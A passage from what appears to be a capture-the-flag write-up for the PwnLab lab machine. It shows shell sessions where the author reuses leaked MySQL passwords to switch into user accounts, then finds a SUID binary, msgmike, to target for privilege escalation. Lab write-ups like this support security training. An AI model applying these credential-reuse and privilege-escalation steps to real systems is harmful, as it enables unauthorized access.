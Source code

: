 ![nc](/assets/img/vulnhub/linux/pwnlab/nc.png)


## Privesc (`kane` to `mike`)

By using [MySQL credentials](#mysql-port-3306), I was able to log in as `kent` and `kane` but not as `mike`.

- **kent**:

```bash
www-data@pwnlab:/home$ su kent
su kent
Password: JWzXuBJJNy

kent@pwnlab:/home$
kent@pwnlab:/home$ cd kent
kent@pwnlab:~$ ls -la
total 20
drwxr-x--- 2 kent kent 4096 Mar 17  2016 .
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..
-rw-r--r-- 1 kent kent  220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 kent kent 3515 Mar 17  2016 .bashrc
-rw-r--r-- 1 kent kent  675 Mar 17  2016 .profile
```

There is nothing interesting in kent's folder. Let's try to log in as mike:

- **mike**:

```bash
kent@pwnlab:~$ su mike
su mike
Password: SIfdsTEn6I
su: Authentication failure
```

- **kane**:

```bash
kent@pwnlab:~$ su - kane
su - kane
Password: iSv5Ym2GRo
kane@pwnlab:~$
```

In kane's folder, there is a **SUID binary** called `msgmike`:

```bash
kane@pwnlab:~$ cd 
kane@pwnlab:~$ ls -la
total 28
drwxr-x--- 2 kane kane 4096 Mar 17  2016 .
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..
-rw-r--r-- 1 kane kane  220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 kane kane 3515 Mar 17  2016 .bashrc
-rwsr-sr-x 1 mike mike 5148 Mar 17  2016 msgmike
-rw-r--r-- 1 kane kane  675 Mar 17  2016 .profile
kane@pwnlab:~$ file msgmike
msgmike: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d7e0b21f33b2134bd17467c3bb9be37deb88b365, not stripped
kane@pwnlab:~$ 
```